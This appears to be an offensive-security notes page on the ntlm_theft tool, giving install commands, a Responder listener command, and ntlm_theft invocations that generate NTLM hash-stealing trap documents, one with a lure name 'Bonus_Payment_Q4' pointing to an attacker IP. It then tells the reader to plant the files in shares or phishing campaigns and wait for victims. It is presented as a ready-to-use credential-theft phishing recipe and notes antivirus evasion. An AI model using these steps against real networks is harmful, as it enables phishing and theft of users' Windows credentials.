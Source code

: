 # NTLM Theft

{% embed url="https://github.com/Greenwolf/ntlm_theft" %}

> _A tool for generating multiple types of NTLMv2 hash theft files._
>
> _ntlm\_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network._
>
> _The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host._

{% code title="Installation" %}
```bash
git clone https://github.com/Greenwolf/ntlm_theft
cd ntlm_theft/

python3 -m venv ntlm_theft_venv
source ntlm_theft_venv/bin/activate

pip3 install xlsxwriter
```
{% endcode %}



## Practical

Set up Responder tool to receive NTLM credentials

```bash
sudo responder -I eth0
```

Now generate the trap file with `ntlm_theft` script.

```bash
python3 ntlm_theft.py -g all -s 127.0.0.1 -f test # all file generated
python3 ntlm_theft.py -g modern -s 127.0.0.1 -f meeting # only modern file generated
python3 ntlm_theft.py -g xlsx -s 192.168.1.103 -f Bonus_Payment_Q4 # only one file gen
```

Then, upload this file in a FTP directory, SMB share or using it in a Phishing campaign.

Lastly, wait that a user open that file and responder catch the credentials.



